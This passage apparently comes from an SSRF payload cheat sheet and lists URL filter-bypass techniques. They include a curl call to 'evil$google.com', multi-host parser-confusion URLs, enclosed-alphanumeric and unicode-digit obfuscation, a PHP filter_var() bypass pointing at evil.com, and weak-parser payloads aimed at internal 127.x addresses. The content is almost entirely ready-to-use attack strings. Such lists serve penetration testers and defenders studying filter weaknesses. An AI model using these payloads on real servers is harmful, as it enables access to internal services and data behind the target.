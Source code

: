 ```powershell
curl -v "http://evil$google.com"
$google = ""
```

### Bypass using tricks combination

```powershell
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib2 : 1.1.1.1
requests + browsers : 2.2.2.2
urllib : 3.3.3.3
```

### Bypass using enclosed alphanumerics 

[@EdOverflow](https://twitter.com/EdOverflow)

```powershell
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com

List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

### Bypass using unicode

In some languages (.NET, Python 3) regex supports unicode by default.
`\d` includes `0123456789` but also `๐๑๒๓๔๕๖๗๘๙`.


### Bypass filter_var() php function

```powershell
0://evil.com:80;http://google.com:80/ 
```

### Bypass against a weak parser

by Orange Tsai ([Blackhat A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf))

```powershell
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

![https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/WeakParser.png?raw=true](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/WeakParser.jpg?raw=true)

### Bypassing using a redirect
[using a redirect](https://portswigger.net/web-security/ssrf#bypassing-ssrf-filters-via-open-redirection)
